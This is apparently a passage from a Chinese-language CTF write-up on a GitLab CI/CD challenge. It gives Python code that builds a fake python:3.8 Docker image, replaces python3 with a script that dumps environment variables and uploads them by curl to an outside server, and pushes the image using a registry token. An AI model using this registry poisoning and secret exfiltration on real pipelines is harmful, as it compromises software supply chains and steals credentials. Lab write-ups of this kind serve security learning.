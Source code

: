 因此利用awesome-app的pipeline执行我们注入的恶意代码，即将恶意的镜像推送到gitlab，从而污染了image，实现flag的盗取。

修改greet.py的内容，执行将获取flag的命令来替代镜像中的python3命令。官方wp里的不太对，官方的命令在执行`RUN pip3 install -r requirements.txt`的时候就会curl，但是这个时候flag还没有注入到环境中，而且

```python
import subprocess

DOCKERFILE = """FROM python:3.8
COPY python3 /usr/local/bin/python3.bak
RUN mv /usr/local/bin/pip3 /usr/local/bin/pip3.bak
COPY pip3 /usr/local/bin/pip3
"""
# Exfiltrate Flag11. Insert your server address
PYTHON3 = """#!/bin/bash
env > /tmp/flag.txt;
curl http://10.207.127.144:39502/ -F file=@/tmp/flag.txt
"""
PIP3 ="""#!/bin/bash
/usr/local/bin/pip3.bak install -r requirements.txt
mv /usr/local/bin/python3.bak /usr/local/bin/python3
"""


def run(cmd):
    proc = subprocess.run(cmd, shell=True, timeout=180)
    print(proc.stdout)
    print(proc.stderr)


def hello(name):
    """
    We will build and push a malicous docker image as if it were python 3.8, but in fact
    the python3 binary will be our evil script
    """
    run('apk add docker-cli')
    with open('Dockerfile', 'w') as f:
        f.write(DOCKERFILE)
    with open('python3', 'w') as f:
        f.write(PYTHON3)
    with open('pip3','w') as f:
        f.write(PIP3)
    # Grant our script execution permission
    run('chmod +x python3')
    run('chmod +x pip3')
    # Build the docker file
    run('DOCKER_HOST=tcp://docker:2375 docker build -t gitlab:5050/wonderland/nest-of-gold/python:3.8 .')
    # Login to the docker registry using TOKEN
    run('DOCKER_HOST=tcp://docker:2375 docker login -u gryphon -p $TOKEN $CI_REGISTRY')
    # Push our malicious python docker image to the registry
    run('DOCKER_HOST=tcp://docker:2375 docker push gitlab:5050/wonderland/nest-of-gold/python:3.8')
    return "Hello, " + name
```
